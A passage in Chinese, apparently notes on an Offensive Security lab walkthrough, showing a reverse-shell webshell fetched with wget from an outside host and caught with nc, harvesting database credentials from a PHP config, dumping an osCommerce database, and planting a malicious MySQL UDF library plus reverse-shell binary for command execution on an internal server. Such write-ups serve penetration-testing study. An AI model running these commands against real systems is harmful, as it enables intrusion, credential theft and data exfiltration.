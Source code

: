在本地开`nc`监听，然后命令行`wget`访问 Webshell：

```
nc -lvp 80
wget www.offseclabs.com/rs.php
```

至此，拿到了一个 DMZ 的 Shell。

- 向内网渗透

在拿到的 Shell 中`/sbin/ifconfig`发现其内网参数为`10.150.0.1/24`。

接着，进入`/var/www/includes/`查看 PHP 配置：

```
cat configure.php
```

在其中发现该服务器架设的网站使用内网一台机器作为数据库服务器，其配置信息如下：

```
define('DB_SERVER', '10.150.0.5');
define('DB_SERVER_USERNAME', 'root');
define('DB_SERVER_PASSWORD', 'xxxxxx');
define('DB_DATABASE', 'oscommerce');
```

于是将数据库导出：

```
mysqldump -u root -pxxxxxx -h 10.150.0.5 oscommerce > /var/www/images/ccdump.txt
```

导出后，即可用浏览器访问这个文件。

接下来，作者想要利用数据库向数据库服务器渗透。他利用之前的 FTP 向 HTTP 根目录上传了一个`up.php`和一个`up.html`。其功能是提供一个上传文件的页面，并且能够把上传的文件以作者指定的 ID 存入指定数据库（这里我不太清楚其具体过程，从后文看似乎是新建了一个名为`pwn`的数据库）。

打开浏览器访问上述上传页面，作者上传了一个恶意 MySQL UDF 库`lib_mysqludf_sys.so`（附录三给出了更多关于 MySQL UDF 的介绍和利用方法）并设置 ID 为 1，接着上传了一个二进制版反弹 Shell，并设置 ID 为 2。

OK。接着在之前获得的 Shell 中连接数据库：

```
mysql -u root -pxxxxxx -h 10.150.0.5
```

注意，这个 Shell 是没有回显的。

将之前上传的文件写入内网数据库服务器的文件系统：

```
use pwn;
select imgdata from binfile where title="1" into dumpfile '/usr/lib/lib_mysqludf_sys.so';
select imgdata from binfile where title="2" into dumpfile '/tmp/bd';
```

接着需要在数据库中引入一些函数：

```
CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
```
